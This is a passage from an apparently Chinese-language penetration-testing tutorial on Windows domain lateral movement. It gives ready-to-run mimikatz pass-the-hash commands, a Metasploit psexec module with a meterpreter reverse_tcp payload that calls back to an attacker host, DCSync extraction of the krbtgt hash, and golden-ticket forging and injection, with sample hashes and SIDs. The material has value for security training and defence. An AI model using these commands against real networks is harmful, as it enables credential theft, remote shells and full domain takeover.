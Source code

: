 在弹出的cmd窗口，我们直接可以连接该主机，并且查看该主机下的文件夹。

> 注：只能在 mimikatz 弹出的 cmd 窗口才可以执行这些操作，注入成功后，可以使用psexec、wmic、wmiexec等实现远程执行命令。



#### 域环境

在域环境中，当我们获得了域内用户的NTLM哈希值，我们可以使用域内的一台主机用mimikatz对域控进行哈希传递攻击。执行完命令后，会弹出cmd窗口。前提是我们必须拥有域内任意一台主机的本地 administrator 权限和获得了域用户的NTLM哈希值

```bash
#使用域管理员administrator的NTLM哈希值对域控进行哈希传递攻击
sekurlsa::pth /user:administrator /domain:"testyu.com" /ntlm:dbd621b8ed24eb627d32514476fac6c5 
```

```bash
#使用域用户test的NTLM哈希值对域控进行哈希传递攻击
sekurlsa::pth /user:test /domain:"testyu.com" /ntlm:329153f560eb329c0e1deea55e88a1e9   
```



#### MSF进行哈希传递

有些时候，当我们获取到了某台主机的Administrator用户的LM-Hash和 NTLM-Hash ，并且该主机的445端口打开着。我们则可以利用 `exploit/windows/smb/psexec` 漏洞用MSF进行远程登录(哈希传递攻击)。(只能是administrator用户的LM-hash和NTLM-hash)，这个利用跟工作组环境或者域环境无关。

```bash
msf > use  exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set lhost 192.168.10.27
msf exploit(psexec) > set rhost 192.168.10.14
msf exploit(psexec) > set smbuser Administrator
msf exploit(psexec) > set smbpass 815A3D91F923441FAAD3B435B51404EE:A86D277D2BCD8C8184B01AC21B6985F6   #这里LM和NTLM我们已经获取到了
msf exploit(psexec) > exploit 
```







### 票据传递攻击(PTT)

#### 黄金票据

域中每个用户的 Ticket 都是由 krbtgt 的密码 Hash 来计算生成的，因此只要获取到了 krbtgt 用户的密码 Hash ，就可以随意伪造 Ticket ，进而使用 Ticket 登陆域控制器，使用 krbtgt 用户 hash 生成的票据被称为 Golden Ticket，此类攻击方法被称为票据传递攻击。

首先获取krbtgt的用户hash:

```bash
mimikatz "lsadump::dcsync /domain:xx.com /user:krbtgt"
```

利用 mimikatz 生成域管权限的 Golden Ticket，填入对应的域管理员账号、域名称、sid值，如下：

```bash
kerberos::golden /admin:administrator /domain:ABC.COM /sid:S-1-5-21-3912242732-2617380311-62526969 /krbtgt:c7af5cfc450e645ed4c46daa78fe18da /ticket:test.kiribi
Copy#导入刚才生成的票据
kerberos::ptt test.kiribi

#导入成功后可获取域管权限
dir \\dc.abc.com\c$
```
